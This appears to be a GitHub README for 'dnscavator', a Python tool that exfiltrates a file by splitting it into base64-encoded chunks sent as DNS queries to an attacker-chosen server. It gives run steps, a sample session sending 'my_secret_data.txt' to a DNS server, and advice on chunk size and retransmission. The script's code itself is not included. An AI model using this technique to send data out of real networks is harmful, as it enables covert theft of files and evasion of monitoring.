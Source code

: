 ![image](https://github.com/user-attachments/assets/1bad0b68-7d5d-4fe0-b5c2-8106a6ff9189)


# dnscavator
# DNScavator - DNS Data Exfiltration Tool

This Python script, `dnscavator.py`, is a tool for exfiltrating data via DNS queries. It splits a specified file into chunks, base64 encodes each chunk, and sends them as DNS queries to a designated DNS server.  The data is encoded within the subdomain part of the DNS query.

## Disclaimer

This tool is provided for educational and ethical testing purposes only. Using this tool for unauthorized data exfiltration is illegal and unethical. The author is not responsible for any misuse of this tool.

## Features

*   File chunking: Splits the input file into smaller chunks suitable for DNS payloads (approximately 250 bytes).
*   Base64 encoding: Encodes each chunk using Base64 for safe transmission within DNS queries.
*   DNS query generation: Constructs DNS queries with the encoded data in the subdomain.
*   UDP transport: Sends DNS queries over UDP.
*   User-friendly interface: Prompts the user for the file path and DNS server IP address.

## Requirements

*   Python 3.x

## How to Use

1.  **Clone the repository (optional):** If you downloaded the code as a zip file, extract it.

2.  **Run the script:** Open a terminal or command prompt, navigate to the directory containing `dnscavator.py`, and execute it using:

    ```bash
    python dnscavator.py
    ```

3.  **Enter file path:** The script will prompt you to enter the path to the file you want to exfiltrate.  Make sure the file exists and you have read permissions.

4.  **Enter DNS server IP:**  Enter the IP address of the DNS server where you intend to send the data.  **Important:** This DNS server must be configured to receive and handle these queries.  A standard public DNS server will likely not work as the queries are malformed and will be rejected.  You will typically need a custom DNS server setup for receiving the data.

5.  **Data exfiltration:** The script will then split the file into chunks, encode them, and send them as DNS queries to the specified server. The progress and any errors will be displayed in the terminal.

## Example

![image](https://github.com/user-attachments/assets/b924d68c-38a7-47d7-9f52-d4d5931215f9)


python dnscavator.py
Enter the path to the file you want to send: my_secret_data.txt
Enter the IP address of the DNS server to send data to: 192.168.1.100

Starting data exfiltration...
File: my_secret_data.txt
DNS Server: 192.168.1.100

Sent chunk to 192.168.1.100
Sent chunk to 192.168.1.100
...
Data exfiltration complete!


## Important Considerations

*   **DNS Server Setup:**  This tool requires a specially configured DNS server to receive and process the DNS queries.  Standard DNS servers will likely ignore or reject these queries.  You will need to set up your own DNS server to capture the encoded data.
*   **Data Reconstruction:**  The receiving DNS server will need to reconstruct the original file from the received DNS query data.  This is not included in this script.
*   **DNS Payload Size:**  DNS has size limitations. This script uses a chunk size that is generally safe, but you might need to adjust it depending on your DNS server configuration.
*   **Network Conditions:**  Network issues may cause some chunks to be lost.  Error handling and retransmission mechanisms could be implemented for more robust exfiltration.
*   **Ethical Use:**  Use this tool responsibly and ethically.  Unauthorized data exfiltration is illegal.

## Author

4rk4n3

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.  (Add a LICENSE file if you wish to use an open-source license).

